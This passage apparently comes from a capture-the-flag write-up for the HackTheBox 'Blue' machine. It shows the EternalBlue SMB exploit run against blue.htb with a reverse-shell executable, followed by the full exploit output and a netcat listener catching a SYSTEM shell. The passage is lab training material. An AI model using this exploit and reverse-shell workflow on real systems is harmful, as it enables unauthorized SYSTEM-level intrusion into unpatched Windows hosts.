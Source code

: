 ```bash
$ cat eternalblue/send_and_execute.py
...
USERNAME = 'guest'
...

$ python eternalblue/send_and_execute.py blue.htb reverse.exe 445 samr                               
Trying to connect to blue.htb:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001d24920
SESSION: 0xfffff8a0082119e0
FLINK: 0xfffff8a001173048
InParam: 0xfffff8a00282715c
MID: 0x807
unexpected alignment, diff: 0x-16b4fb8
leak failed... try again
CONNECTION: 0xfffffa8001d24920
SESSION: 0xfffff8a0082119e0
FLINK: 0xfffff8a002887088
InParam: 0xfffff8a00288115c
MID: 0x803
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file YDERDS.exe...
Opening SVCManager on blue.htb.....
Creating service hRhL.....
Starting service hRhL.....
The NETBIOS connection with the remote host timed out.
Removing service hRhL.....
ServiceExec Error on: blue.htb
nca_s_proto_error
Done
```

On our listener that we setup beforehand, we receive a connection.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
